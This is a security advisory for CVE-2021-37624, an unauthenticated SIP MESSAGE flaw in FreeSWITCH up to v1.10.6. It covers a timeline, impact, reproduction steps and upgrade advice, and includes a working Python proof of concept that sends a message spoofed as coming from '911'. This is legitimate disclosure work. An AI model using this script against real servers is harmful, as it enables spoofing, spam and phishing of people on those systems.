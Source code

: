 # FreeSWITCH does not authenticate SIP MESSAGE requests, leading to spam and message spoofing

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-07-freeswitch-SIP-MESSAGE-without-auth
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-mjcm-q9h8-9xv3
- Other references: CVE-2021-37624
- Tested vulnerable versions: <= v1.10.6
- Timeline:
    - Report date: 2021-06-07
	- Fix provided for testing: 2021-07-27
	- Vendor release with fix: 2021-10-24
	- Enable Security advisory: 2021-10-25

## Description

By default, SIP requests of the type MESSAGE (RFC 3428) are not authenticated in the affected versions of FreeSWITCH. MESSAGE requests are relayed to SIP user agents registered with the FreeSWITCH server without requiring any authentication. Although this behaviour can be changed by setting the `auth-messages` parameter to `true`, it is not the default setting.

## Impact

Abuse of this security issue allows attackers to send SIP MESSAGE messages to any SIP user agent that is registered with the server without requiring authentication. Additionally, since no authentication is required, chat messages can be spoofed to appear to come from trusted entities. Therefore, abuse can lead to spam and enable social engineering, phishing and similar attacks.

We are issuing this advisory because, in the course of our work, we have noticed that most FreeSWITCH installations that are exposed to the Internet do not authenticate MESSAGE requests.

## How to reproduce the issue

1. Install FreeSWITCH v1.10.6 or lower
2. Run FreeSWITCH using the default configuration
3. Register as a legitimate SIP user with the FreeSWITCH server (e.g. `sip:1000@192.168.1.100` where `192.168.1.100` is your FreeSWITCH server) using a softphone that can process MESSAGE (such as Zoiper)
4. Save the below Python script to `anon-message.py`
5. Run the Python script `python anon-message.py <freeswitch_ip> <target_extension>`
6. Observe the SIP message appear on your softphone, pretending to be from 911


```python
import sys, socket, random, string

UDP_IP = sys.argv[1]
UDP_PORT = 5060
ext = sys.argv[2]
rand = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
msg="MESSAGE sip:%s@%s SIP/2.0\r\n" % (ext, UDP_IP)
msg+="Via: SIP/2.0/UDP 192.168.1.159:46896;rport;branch=z9hG4bK-%s\r\n" % rand
msg+="Max-Forwards: 70\r\n"
msg+="From: 911 <sip:911@%s>;tag=%s\r\n" %(UDP_IP, rand)
msg+="To: <sip:%s@%s>\r\n" %(ext, UDP_IP)
msg+="Call-ID: %s\r\n" % rand
msg+="CSeq: 1 MESSAGE\r\n"
msg+="Contact: <sip:911@192.168.1.159:48760;transport=udp>\r\n"
msg+="Content-Type: text/plain\r\n"
msg+="Content-Length: 5\r\n\r\n"
msg+="hello"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
```

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation is that this SIP message type is authenticated by default so that FreeSWITCH administrators do not need to explicitly set the `auth-messages` parameter. When following such a recommendation, a new parameter can be introduced to explicitly disable authentication.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.


